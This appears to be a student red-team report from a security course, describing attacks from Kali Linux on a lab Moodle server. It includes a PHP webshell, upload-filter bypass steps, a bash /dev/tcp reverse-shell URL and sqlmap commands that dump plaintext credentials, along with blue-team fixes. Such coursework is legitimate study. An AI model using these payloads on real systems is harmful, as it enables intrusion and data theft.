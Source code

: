 # 🛡️ SSI Project – Red Team Exploitation Report

This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
The aim was to obtain a reverse shell using an upload vulnerability.

## First attack

---

## 🔍 Objective

The aim of the attack was to :

- Bypass the **upload file filtering** system
- Upload a **file containing malicious PHP code**.
- Execute this code remotely via the browser
- Establish a **reverse shell connection** to the Kali machine (attacker)

---

## 🔓 Technical context

- Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
- Attacking machine** : Kali Linux on the same local network (192.168.56.X)
- PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :

php
eval(, system(, exec(, shell_exec(, base64_decode(,
passthru(, pcntl_exec(, posix_getuid(, <script>, etc.

---

🧨Attack I – Reverse Shell Attempts

### Step 1: Create a PHP reverse shell

On Kali, I created a basic shell:
    
```bash
<?php system($_GET['cmd']); ?>
```

### Step 2: Attempt to bypass with double extensions

- First attempt: rename file to shell.php.png
- Then: shell.png.php
    
![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)
         
I then tried uploading the malicious file:   
         ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)
         

We obtained :

![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)

🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.


Error message:


❌ File failed security scan


---
    
    
Filtering Bypass Attempts

Attempt: Appending PHP payload directly to an image

```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```
 
     
Working Solution: Metadata Injection + Obfuscation 

   1. Use a clean, existing image
          
        ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
                          
        ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)

    
   2. Inject an obfuscated PHP payload into the image’s metadata
      ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
    
   This avoids all blacklisted keywords (system, eval, etc.)        
    
   3. Renommer l’image avec une double extension
      ```bash
        mv shell.png shell.php.png
        ```

   4. Upload successful  

   ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
    

The file passed the scan because :

- The visible image content was clean

- The malicious payload was hidden in metadata

- No blacklisted strings were detected


---
   
Final Goal: Trigger Remote Code Execution

1. Start a Netcat listener on Kali:

   ```bash
   nc -lvnp 4444
   ```

   ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
    
 2. Trigger the payload through the browser
    ```bash
    http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
    ```   

Conclusion :

Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:

✅ Successfully bypassed file upload filtering
✅ Uploaded a disguised PHP webshell
✅ Injected a stealthy payload using image metadata
✅ Identified and documented backend protections

This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.




Blue Team Recommendations :

To improve the defense against such attacks:

✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)

✅ Disable PHP execution in upload directories

✅ Rename and hash uploaded files server-side

✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis

---

## Second attack

---

## 🔍 Objective
The goal of this attack was to:
* Detect SQL injection vulnerabilities in the login process
* Exploit the injection to extract data from the database
* Demonstrate the risk of improperly handled SQL inputs
* Retrieve sensitive information from the ssi_project database

---
  
## 🔓 Technical Context
* Target (Victim): Ubuntu 22.04 running Apache2, MySQL 8.0, Moodle web service
* Attacker (Red Team): Kali Linux, connected via internal network (192.168.56.X)
* Login page vulnerable to SQL injection via POST parameter username
* No input sanitization or prepared statements in the PHP back-end

--- 
## 💥 Attack I – SQL Injection on Login Form

### Step 1: Reconnaissance and Injection Point
The login form sends POST data to login.php:
```bash
curl -X POST -d "username=test&password=test" http://192.168.56.100:8082/login.php
```
Observed response:
```bash
{"status": "error"}
```
![image](https://github.com/user-attachments/assets/60e6235f-f04b-4ba6-8fc6-c954126cd1c9)

Testing with crafted payload:
```bash
curl -X POST -d "username=' OR 1=1 -- -&password=x" http://192.168.56.100:8082/login.php
Still returns:
```
{"status": "error"}

![image](https://github.com/user-attachments/assets/64f92c05-19b1-4545-822c-e85994fd79b5)

### Step 2: Use sqlmap to Confirm Injection
Using sqlmap:
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" --data="username=test&password=test" --batch --level=5 --risk=3
```

Result:
* SQLi confirmed on username via error-based, boolean-based, time-based, and UNION injection
* Extracted tables: users, events


### Step 3: Dumping Database Contents
#### 1: Detecting SQL Injection
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       --batch --level=2 --risk=1
```
Result: SQLMap identified that the username parameter is injectable via:

Boolean-based blind

Error-based

Time-based blind

UNION-based injection

DBMS: MySQL >= 5.6

#### 2: Database Enumeration

 List all databases
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       -b --dbs
```
✅ Found database: ssi_project

 List tables from ssi_project
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       -D ssi_project --tables
```

![image](https://github.com/user-attachments/assets/0882f0ff-8d11-40aa-bd27-e272df636eb9)

![image](https://github.com/user-attachments/assets/694a4ce4-672c-49df-b5e5-57c5e434a13a)

✅ Found tables: users, events

#### 3: Dumping User Credentials
```bash
sqlmap -u "http://192.168.56.100:8082/login.php" \
       --method=POST \
       --data="username=test&password=test" \
       -D ssi_project -T users --dump
```
![image](https://github.com/user-attachments/assets/d22ef777-7b28-4937-813a-2716f1a7460e)

Extracted records:
```bash
Database: ssi_project
Table: users
+----+----------------------+---------+----------+----------+
| id | email                | role    | password | username |
+----+----------------------+---------+----------+----------+
| 1  | vince@bare.com       | student | bare     | vincent  |
| 2  | jules@fedit.com      | teacher | fedit    | jules    |
| 4  | gauthier@mallard.com | student | mallard  | gauthier |
+----+----------------------+---------+----------+----------+

```
⚡ These passwords appear to be stored in plaintext, which is a major security vulnerability.

And then with events table : 
```bash
Database: ssi_project                                                                                                                                                   
Table: events
[3 entries]
+----+---------+-----------------------------------------+------------+---------------------------------------+
| id | user_id | title                                   | event_date | description                           |
+----+---------+-----------------------------------------+------------+---------------------------------------+
| 1  | 2       | Cours de PHP                            | 2025-04-02 | Introduction au langage PHP           |
| 2  | 1       | R\\u00e9vision s\\u00e9curit\\u00e9 web | 2025-04-05 | <script>alert(\\"XSS!\\");<\\/script> |
| 3  | 1       | Examen final                            | 2025-04-10 | Salle 203 - 14h                       |
+----+---------+-----------------------------------------+------------+---------------------------------------+

```
![image](https://github.com/user-attachments/assets/9dc84bb9-a2b9-4104-949c-b87e0f961d48)


## ✅ Achievements
* Detected and exploited a critical SQL injection vulnerability
* Fully extracted user credentials and event data
* Demonstrated the lack of prepared statements and input validation

## 🛡️ Blue Team Recommendations
1. Use prepared statements with parameter binding
2. Hash passwords using password_hash() instead of storing them in plaintext
3. Implement WAF (Web Application Firewall) to block SQLi attempts
4. Limit SQL error output in production to avoid exposing database structure
5. Log and monitor login attempts to detect anomalies
6. Use LIMIT 1 and safe user query patterns
This report validates the critical impact of SQL injection and demonstrates the ease of database compromise in the absence of secure coding practices.

